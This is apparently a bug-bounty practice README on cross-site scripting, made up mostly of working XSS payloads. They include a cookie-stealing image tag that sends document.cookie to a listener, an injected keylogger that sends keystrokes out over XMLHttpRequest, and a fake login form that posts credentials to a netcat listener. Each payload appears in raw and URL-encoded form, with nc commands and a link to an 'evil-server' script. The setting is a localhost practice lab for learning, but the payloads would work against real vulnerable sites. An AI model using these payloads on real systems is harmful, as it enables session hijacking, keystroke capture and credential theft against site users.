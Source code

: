 # basic payload
```
<h1>xss try</h1>
<script>alert(1)</script>
<script>alert(document.cookie)</script>
<img src="does-not-exist" onerror="alert(document.cookie)">

“>img src=x onerror=alert(1)>

```
# XSS attack 1: Hijacking the user’s session
## Evil server 
```bash
node evil-server.js
```
download the zip file and use the command on terminal

[evil-server.js](https://github.com/fahimalshihab/Bug-Bounty/blob/main/XSS/Practice/evil-server-js.zip)

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/0b07c731-cb75-4082-9e43-660816c685ea)

### Or 
can make local listener
```
nc -l localhost 5000
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/3fb1b3e8-bae1-4e26-a49f-98d83509b151)


## Document.cookie
  ``` js
  <img src="does-not-exist" onerror="alert(document.cookie)">
  ```
  ``` %3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E```


## steal the session cookie
```js
    <img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">

```
``` %3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E```

* Here's the JavaScript code from the last example in a readable form:
```js
var img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```


## key-logger:
```js
<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```

```
%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E
```

* Here's the JavaScript code from the last example in a readable form:
```js
var timeout;
var buffer = '';
document.querySelector('body').addEventListener('keypress', function(event) {
	if (event.which !== 0) {
		clearTimeout(timeout);
		buffer += String.fromCharCode(event.which);
		timeout = setTimeout(function() {
			var xhr = new XMLHttpRequest();
			var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
			xhr.open('GET', uri);
			xhr.send();
			buffer = '';
		}, 400);
	}
});
```

# XSS attack 2: Phishing to steal user credentials
Lets create a local listener server 
```
nc -l localhost 5000
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/cf256d77-3c2a-4522-a1de-c2d37eb464c8)


```
<h3>Please login to proceed</h3> <form action=http://localhost:5000>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/d494c8e2-cbd3-4ee7-832f-bf696f55b105)

yeahooo here we go 

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/08c8d04d-9c05-403e-bb9a-b77724e1eae1)


